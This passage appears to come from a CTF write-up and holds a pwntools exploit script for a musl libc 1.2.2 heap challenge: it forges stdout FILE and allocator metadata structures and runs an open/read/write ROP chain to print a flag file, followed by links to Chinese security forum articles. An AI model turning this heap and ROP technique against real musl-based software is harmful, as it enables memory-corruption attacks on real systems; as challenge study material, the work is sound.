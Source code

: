```python
    #open(flag,0)
    rop  = p64(p_rdi_rax)+p64(flag_addr)+p64(2)
    rop += p64(p_rsi)+p64(0)+p64(sys_call)

    #read(fd,buf,size)
    rop += p64(p_rdi_rax)+p64(3)+p64(0)
    rop += p64(p_rsi)+p64(flag_addr+0x600)
    rop += p64(p_rdx)+p64(0x30)+p64(sys_call)

    #write(1,buf,size)
    rop += p64(p_rdi_rax)+p64(1)+p64(1)
    rop += p64(p_rsi)+p64(flag_addr+0x600)
    rop += p64(p_rdx)+p64(0x30)+p64(sys_call)

    payload  = './flag'.ljust(0x30,'\x00')
    #fake __stdout_FILE
    payload += '\x00'*0x30 + p64(rop_addr) + p64(ret) + p64(0) + p64(magic_gadget)
    payload  = payload.ljust(0x100-0x20,'\x00') 
    payload += rop
    payload = payload.ljust(0x1000-0x20,'\x00')

    # __stdout_used
    payload += p64(secret)+p64(fake_stdout_ptr)+p64(fake_stdout_used)+p64(fake_mem)
    payload += p32(0x7e)+p32(0)
    freeable = 1
    maplen = 1
    sizeclass = 1
    last_idx = 6
    last_value = last_idx | (freeable << 5) | (sizeclass << 6) | (maplen << 12)
    payload +=p64(last_value)+p64(0)
    
    add(10,0x2000,payload + '\n')
    # dbg()

    delete(6)
    
    cmd(4)
    
    p.interactive()

attack()

'''
@File    :   musl-exp.py
@Time    :   2022/08/19 11:34:14
@Author  :   Niyah 
'''
```

## reference

[从musl libc 1.1.24到1.2.2 学习pwn姿势 - 安全客，安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/253566#h3-5)

[musl 1.2.2 总结+源码分析 One-Pwn-看雪论坛-安全社区|安全招聘|bbs.pediy.com](https://bbs.pediy.com/thread-269533-1.htm#msg_header_h3_6)